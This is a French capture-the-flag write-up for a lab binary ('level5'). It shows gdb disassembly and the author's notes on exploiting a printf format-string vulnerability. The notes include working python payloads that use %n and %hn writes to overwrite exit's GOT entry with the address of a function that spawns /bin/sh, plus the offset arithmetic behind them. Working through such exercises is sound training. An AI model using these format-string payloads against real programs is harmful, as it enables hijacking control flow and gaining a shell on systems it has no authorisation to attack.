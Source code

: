 Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave  
   0x08048510 <+12>:    ret   

Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>

Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>


On a main qui call n()

Dans n() on a un gets et un printf 

On a une fonction o() qui call system("/bin/sh") mais qui n'est pas appele
Il va falloir trouver un moyen de call cette fonction pour executer system()

Donc a mon avis il va falloir ecraser l'adresse
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>

Pour remplacer par le call a la fonction o()
En utilisant gets et printf comme l'exercice precedent

Donc ecrire N bytes sur 0x080484ff ou N est egale a 0x080484a4 ???
Ou prendre l'adresse de la plt exit ?
o()  : 0x080484a4

On va essayer les deux, voyons voir

0xb7 e5 eb e0
r < <(python -c '"\xe0\xeb\xe5\xb7" + "\xe2\xeb\xe5\xb7" + "%2046" + "%4$hn" + "%31902" + "%5$hn"')


(gdb) x/2i 0x80483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
   0x80483d6 <exit@plt+6>:      push   $0x28


0x80483d0 est l'adresse dans la PLT (Procedure Linkage Table)
Le jmp *0x8049838 indique que 0x8049838 est l'entrée dans la GOT pour exit
C'est donc cette adresse (0x8049838) qu'il faut réécrire avec l'adresse de la fonction o()
0x 08 04 98 38


r < <(python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"')
(python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"'; cat) | ./level5

x/x 0x8049838
    0x8049838 <exit@got.plt>:       0x080484a4

Ok ca marche mais essayons de d'ecrire 2x2 (short) bytes, bytes de poids faible et fort pour eviter d'ecrire autant sur la pile

(python -c 'print "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044d" + "%4$hn" + "%31904d" + "%5$hn"'; cat) | ./level5
Expliquons cette ligne :
Donc on commence par ecrire les deux adresses (a 2 bytes d'ecart) pour ecrire sur la partie haute et basse

Ensuite on va ecrire 0x0804 sur la premiere et 0x84a4 sur la deuxieme (pas exactement)
    0x0804 = d2052
    2052 - 8 = 2044 // On soustrait 8 pour les deux adresses

Ensuite on a :
    0x84a4 = d33956
    33956 - 8 - 2044 = 31904 // On soustrait 8 et les 2044 char